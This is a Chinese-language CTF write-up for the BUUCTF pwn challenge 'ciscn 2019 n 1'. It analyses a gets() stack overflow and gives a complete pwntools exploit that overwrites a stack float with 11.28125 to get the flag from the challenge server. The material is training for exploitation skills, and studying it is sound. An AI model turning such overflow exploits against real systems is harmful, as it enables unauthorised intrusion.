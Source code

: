 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 n 1
date: 2022-3-19 20:30:09
permalink: /pages/2e944742e534d18b
tags: 
  - buuctf

---
```


# ciscn 2019 n 1

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec ciscn_2019_n_1
[*] '/root/ciscn_2019_n_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数未发现漏洞点，漏洞在函数func如图

![iswb23](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/iswb23.png)

发现溢出函数gets，另外若v2==11.28125成立，则直接可获得flag

## 思路分析

1. 分析:
   - v1处可溢出
   - v1与v2同时是栈上变量
   - v2=0
   - 当v2=11.28125时可直接获得flag
   - v1地址比v2高
2. 思路:
   - 从v1直接溢出到v2处将v2修改为11.28125以获得flag

## 确定偏移量

- 通过ida及简单的调试可知从v1到v2的偏移量为0x30-4

## 问题

### pwntools中的flat无法打包float值

需要进行手动转换处理

```python
import struct
v1 = 11.28125
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  # 4字节浮点数转16进制
```

## exp

```python
from pwn import *
import struct
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_n_1/ciscn_2019_n_1'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27944)
padding = 0x30-4
v1 = 11.28125
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  # 4字节浮点数转16进制
payload = flat(['a'*padding, v1])
io.recv()
io.sendline(payload)
io.interactive()
```
